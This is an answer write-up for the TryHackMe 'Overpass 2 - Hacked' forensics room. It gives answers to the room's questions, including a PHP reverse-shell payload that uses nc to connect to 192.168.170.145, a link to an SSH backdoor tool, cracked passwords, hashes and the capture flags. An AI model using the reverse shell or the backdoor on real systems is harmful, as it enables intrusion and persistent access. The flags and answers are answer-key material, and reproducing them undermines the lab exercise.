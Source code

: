 # TryHackMe Overpass 2 - Hacked

> Saikat Karmakar | May 13 : 2021

---

## Task 1

1. What was the URL of the page they used to upload a reverse shell?
```
/development/
```
2. What payload did the attacker use to gain access?
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
3. What password did the attacker use to privesc?
```
whenevernoteartinstant
```
4. How did the attacker establish persistence?
```
https://github.com/NinjaJc01/ssh-backdoor
```
5. Using the fasttrack wordlist, how many of the system passwords were crackable?
```
4
```

## Task 2

1. What's the default hash for the backdoor?
```
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```
2. What's the hardcoded salt for the backdoor?
```
1c362db832f3f864c8c2fe05f2002a05
```
3. What was the hash that the attacker used? - go back to the PCAP for this!
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
4. Crack the hash using rockyou and a cracking tool of your choice. What's the password?
```
november16
```

## Task 3

1. The attacker defaced the website. What message did they leave as a heading?
```
H4ck3d by CooctusClan
```
2. What's the user flag?
```
thm{d119b4fa8c497ddb0525f7ad200e6567}
```
3. What's the root flag?
```
thm{d53b2684f169360bb9606c333873144d}
```
